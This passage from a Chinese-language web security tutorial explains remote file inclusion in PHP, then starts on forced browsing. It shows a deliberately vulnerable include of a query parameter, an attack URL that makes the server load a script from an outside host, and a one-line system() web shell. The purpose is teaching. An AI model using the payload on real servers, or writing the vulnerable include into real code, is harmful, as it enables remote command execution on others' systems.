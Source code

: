【远程文件包含漏洞】

&emsp;&emsp;远程文件包含漏洞(Remote File Inclusion)是指当部分脚本内容需要从其他文件读入时，攻击者利用指定外部服务器的URL充当依赖文件，让脚本读取之后，就可运行任意脚本的一种攻击

&emsp;&emsp;这主要是PHP存在的安全漏洞，对PHP的include或require来说，这是一种可通过设定，指定外部服务器的URL作为文件名的功能。但是，该功能太危险，PHP5.2.0之后默认设定此功能无效

&emsp;&emsp;固然存在输出值转义的问题，但更应控制对任意文件名的指定

**远程文件包含漏洞的攻击案例**

&emsp;&emsp;下面以include读入由查询字段指定文件的功能为例，讲解远程文件包含漏洞。该功能可通过以下查询字段形式指定文件名，并在脚本内的include语句处读入这个指定文件

<div>
<pre>http://example.com/foo.php?mod=news.php</pre>
</div>

&emsp;&emsp;对应脚本的源代码如下所示

&emsp;&emsp;`http://example.com/foo.php`的源代码(部分摘录)

<div>
<pre>$modname=$_GET['mod'];
include($modname);</pre>
</div>

&emsp;&emsp;攻击者指定如同下面形式的URL发出请求

<div>
<pre>http://example.com/foo.php?mod=http://hackr.jp/cmd.php&amp;cmd=ls</pre>
</div>

&emsp;&emsp;攻击者已事先在外部服务器上准备了以下这段脚本

&emsp;&emsp;`http://hackr.jp/cmd.php`的源代码

<div>
<pre>&lt;?system($_GET['cmd'])?&gt;</pre>
</div>

&emsp;&emsp;假设Web服务器(`example.com`)的include可以引入外部服务器的URL，那就会读入攻击者在外部服务器上事先准备的URL(`http://hackr.jp/cmd.php`)。结果，通过system函数就能在Web服务器(`example.com`)上执行查询字段指定的OS命令了

![webAttack22](https://pic.xiaohuochai.site/blog/HTTP_webAttack22.png)

&emsp;&emsp;在以上攻击案例中，执行了可显示Web服务器(example.com)上文件及目录信息的ls命令

&nbsp;

### 设置或设计缺陷

&emsp;&emsp;因设置或设计上的缺陷引发的安全漏洞是指，错误设置Web服务器，或是由设计上的一些问题引起的安全漏洞

【强制浏览】

&emsp;&emsp;强制浏览(Forced Browsing)安全漏洞是指，从安置在Web服务器的公开目录下的文件中，浏览那些原本非自愿公开的文件

&emsp;&emsp;强制浏览有可能会造成以下一些影响：泄露顾客的个人信息等重要情报；泄露原本需要具有访问权限的用户才可查阅的信息内容；泄露未外连到外界的文件

&emsp;&emsp;对那些原本不愿公开的文件，为了保证安全会隐蔽其URL。可一旦知道了那些URL，也就意味着可浏览URL对应的文件。直接显示容易推测的文件名或文件目录索引时，通过某些方法可能会使URL产生泄露
